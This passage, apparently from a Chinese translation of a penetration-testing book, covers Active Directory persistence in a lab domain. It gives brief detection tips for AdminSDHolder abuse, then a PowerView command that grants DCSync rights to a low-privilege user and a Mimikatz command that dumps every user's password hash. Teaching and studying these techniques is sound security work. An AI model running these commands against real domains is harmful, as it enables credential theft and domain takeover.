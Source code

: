 ![图 7.13 – jaime.lannister 用户账户被添加到 Domain Admins 组](img/B18964_07_13.jpg)

图 7.13 – jaime.lannister 用户账户被添加到 Domain Admins 组

有两种方法可以检测这种技术。我们可以定期查看 AdminSDHolder 对象的 ACL，以确保没有任何更改，并且可以监控 **adminCount** = **1** 的用户和组。现在，我们将讨论如何向域对象本身添加权限。

### 域

通过域管理员权限，我们可以为任何受我们控制的用户授予 **DCSync** 权限。结果，低权限用户将能够提取域中所有用户的哈希值。添加 DCSync 权限的 PowerView 命令如下所示：

```
Add-DomainObjectACL -PrincipalIdentity renly.baratheon -TargetIdentity "dc=sevenkingdoms,dc=local" -Rights DCSync -Verbose
```

然后，我们返回到低权限用户并运行以下 Mimikatz 命令：

```
mimikatz.exe "lsadump::dcsync /all /csv"
```

成功的 DCSync 攻击结果如图所示：
